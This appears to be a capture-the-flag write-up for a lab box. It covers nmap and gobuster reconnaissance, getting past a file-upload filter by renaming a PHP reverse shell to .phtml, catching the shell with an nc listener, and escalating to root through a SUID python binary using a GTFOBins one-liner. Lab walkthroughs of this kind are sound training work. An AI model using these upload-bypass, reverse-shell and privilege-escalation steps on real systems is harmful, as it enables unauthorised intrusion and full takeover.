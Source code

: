 
## Information Gathering

Near 64 ttl ICMP request reply suggests host is Linux based.

![[Pasted image 20241201191828.png]]

> Scan the machine, how many ports are open?

Comand used:

``` bash
sudo nmap -sS -T5 -sV -O -vvv 10.10.73.71 -oN nmap.txt  
```

Output:

``` java
# Nmap 7.94SVN scan initiated Sun Dec  1 19:21:00 2024 as: nmap -sS -T5 -sV -O -vvv -oN nmap.txt 10.10.73.71
Nmap scan report for 10.10.73.71
Host is up, received echo-reply ttl 63 (0.11s latency).
Scanned at 2024-12-01 19:21:01 CET for 14s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
OS fingerprint not ideal because: Timing level 5 (Insane) used
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%), Linux 3.2 - 4.9 (93%), Linux 3.5 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=12/1%OT=22%CT=1%CU=43436%PV=Y%DS=2%DC=I%G=N%TM=674CA91B%P=x86_64-pc-linux-gnu)
SEQ(SP=FD%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)
SEQ(SP=FE%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)
OPS(O1=M509ST11NW6%O2=M509ST11NW6%O3=M509NNT11NW6%O4=M509ST11NW6%O5=M509ST11NW6%O6=M509ST11)
WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)
ECN(R=Y%DF=Y%T=40%W=F507%O=M509NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 38.398 days (since Thu Oct 24 10:47:40 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=253 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  1 19:21:15 2024 -- 1 IP address (1 host up) scanned in 14.60 seconds

```

Reply: 2 open ports.

> What version of Apache is running?

From the nmap service scanning output:

``` java
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```

So reply: 2.4.29

> What service is running on port 22?

Reply: SSH as per usual

> Find directories on the web server using the GoBuster tool.

Command used:

``` bash
gobuster dir -u http://10.10.73.71 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.txt
```

> What is the hidden directory?

Reply:

![[Pasted image 20241201193635.png]]

## Exploitation

> Find a form to upload and get a reverse shell, and find the flag.

I will be using https://github.com/pentestmonkey/php-reverse-shell

I try to upload it but fail:

![[Pasted image 20241201194024.png]]

Lets try changing the extension:

``` bash
mv php_reverse_shell.php php_reverse_shell.phtml
```

![[Pasted image 20241201194139.png]]

It works!

Lets start a listener an open the file:

``` bash
nc -nlvp 1234
```

As soon as i click on "Veja" I get a reverse shell:

![[Pasted image 20241201194233.png]]


## Privilege Escalation

Lets spawn a better shell:

``` bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

>Search for files with SUID permission, which file is weird?

Command used:

``` bash
find . -perm /4000
```

Reply: /usr/bin/python

> Find a form to escalate your privileges.

From GTFObins:

``` bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

And that's it, we are root.

